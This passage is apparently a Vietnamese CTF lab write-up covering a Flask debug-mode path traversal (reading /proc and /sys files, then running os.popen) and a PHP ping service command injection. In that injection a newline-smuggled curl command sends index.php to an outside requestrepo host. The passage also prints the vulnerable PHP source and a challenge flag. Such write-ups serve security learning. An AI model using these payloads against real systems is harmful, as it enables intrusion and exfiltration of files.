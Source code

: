 may mắn searching một hồi về debug via path traversal mình tìm được 1 bài 

https://hackmd.io/@CP04042K/BkFYA8P0j#Path-traversal-save-the-day

`GET /services?search=/proc/sys/kernel/random/boot_id`

![image](https://hackmd.io/_uploads/rywrbSAJye.png)

`GET /services?search=/home/web-app/.local/lib/python3.11/site-packages/flask/app.py`

![image](https://hackmd.io/_uploads/rJaUbBCyke.png)

`GET /services?search=/proc/self/cgroup`

![image](https://hackmd.io/_uploads/BJ6w-BA1kx.png)

`GET /services?search=/sys/class/net/eth0/address HTTP/1.1` để lấy địa chỉ MAC

![image](https://hackmd.io/_uploads/H1910E0k1x.png)

![image](https://hackmd.io/_uploads/S1HlerA1Je.png)

![image](https://hackmd.io/_uploads/HkOlWSC1ye.png)

`__import__("os").popen('cat *').read()`

![image](https://hackmd.io/_uploads/HkE7WSAkke.png)


flag: `RM{B3_C4refull_w1th_fl4sk_d3bug}`

## GraphQL - Injection

## Command injection - Filter bypass

dec: Find a vulnerability in this service and exploit it. Some protections were added.

![image](https://hackmd.io/_uploads/Sy5GaB01kg.png)

ta dùng list để check có khá nhiều cái qua được

`ip=127.0.0.1%0Acurl%20-F%20"file=@index.php"%20http://00br69e7.requestrepo.com`

![image](https://hackmd.io/_uploads/HkIHaH0k1e.png)

![image](https://hackmd.io/_uploads/HkKIprA1Jl.png)

```
<html>
<head>
<title>Ping Service</title>
</head>
<body>
<form method="POST" action="index.php">
<input type="text" name="ip" placeholder="127.0.0.1">
<input type="submit">
</form>
<pre>
<?php
$flag = "".file_get_contents(".passwd")."";

if(isset($_POST["ip"]) && !empty($_POST["ip"])){
$ip = @preg_replace("/[\\\$|`;&<>]/", "", $_POST["ip"]);
//$ip = @str_replace(['\\', '$', '|', '`', ';', '&', '<', '>'], "", $_POST["ip"]);
$response = @shell_exec("timeout 5 bash -c 'ping -c 3 ".$ip."'");
$receive = @preg_match("/3 packets transmitted, (.*) received/s",$response,$out);
```